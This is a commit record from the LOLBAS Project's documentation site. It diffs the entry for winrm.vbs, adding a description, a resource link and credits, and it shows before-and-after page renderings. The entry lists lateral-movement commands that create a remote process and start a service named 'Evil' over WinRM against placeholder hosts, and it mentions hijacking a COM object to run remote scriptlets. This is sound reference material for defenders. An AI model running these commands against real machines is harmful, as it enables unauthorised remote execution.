

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Scripts/Winrm.md, in a window 1280 px wide. Shown: the whole page at 86% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1136 px from its top, so only the background shows below that.

Commit message:
Updated Winrm

```diff
--- a/_lolbas/Scripts/Winrm.md
+++ b/_lolbas/Scripts/Winrm.md
@@ -1,6 +1,6 @@
 ---
 name: winrm.vbs
-description:
+description: Interact and manage WMI object instances over Winrm.
 functions:
   execute:
     - description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
@@ -8,8 +8,9 @@
     - description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol.
       code: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
     - description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol.
-      code: winrm invoke Create wmicimv2/Win32_Service @{      Name="Evil";Display      Name="Evil";Path      Name="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?      Name=Evil -r:http://acmedc:5985
+      code: winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985\nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
 resources:
+    - resource: https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf
     - resource: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
     - resource: https://www.youtube.com/watch?v=3gz1QmiMhss
     - resource: https://github.com/enigma0x3/windows-operating-system-archaeology
@@ -18,6 +19,6 @@
 fullpath:
     - path: c:\windows\system32\winrm.vbs
     - path: c:\windows\sysWOW64\winrm.vbs
-notes: Thanks to Matt Nelson - @enigma0x3 (Hijack), Casey Smith - @subtee (Hijack), Red Canary Company cc Tony Lambert - @redcanaryco (Win32_Process LM), Jimmy - @bohops (Win32_Service LM)
+notes: Thanks to Matt Graeber - @mattifestation (Execution & Lateral Movement), Matt Nelson - @enigma0x3 (Hijack), Casey Smith - @subtee (Hijack), Red Canary Company cc Tony Lambert - @redcanaryco (Win32_Process LM example), Jimmy - @bohops (Win32_Service LM example)
 
 ---
```
